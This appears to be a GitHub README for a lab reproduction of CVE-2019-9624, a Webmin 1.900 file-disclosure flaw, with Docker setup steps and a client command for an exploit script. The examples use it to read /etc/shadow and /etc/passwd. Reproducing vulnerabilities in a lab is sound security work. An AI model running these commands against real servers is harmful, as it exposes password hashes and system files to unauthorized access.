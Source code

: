 # CVE-2019-9624

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-9624>


## Exploit
* <https://pentest.com.tr/exploits/Webmin-1900-Remote-Command-Execution.html>
 

## Environment used

* Ubuntu 18.04.4 LTS
* Webmin 1.900


## Reproduction 

* Server
    - Docker version
        ```shell script
        sudo docker build -t cve-2019-9624 . 
        sudo docker run -p 10000:10000 -it cve-2019-9624
        ```
    - Script version
        ```shell script
        sudo bash installation.sh
        ```    
* Client
```shell script
python3 exploit.py --host SERVER_IP --port 10000 -u test --pass qwerty --file FILE_TO_GET
```      
     
A file will be uploaded allowing to any user to see any system file.      
Examples of use:
* <https://SERVER-IP:10000/file/show.cgi/etc/shadow>
* `python3 exploit.py --host <SERVER-IP> --port 10000 -u test --pass qwerty --file "/etc/passwd"`
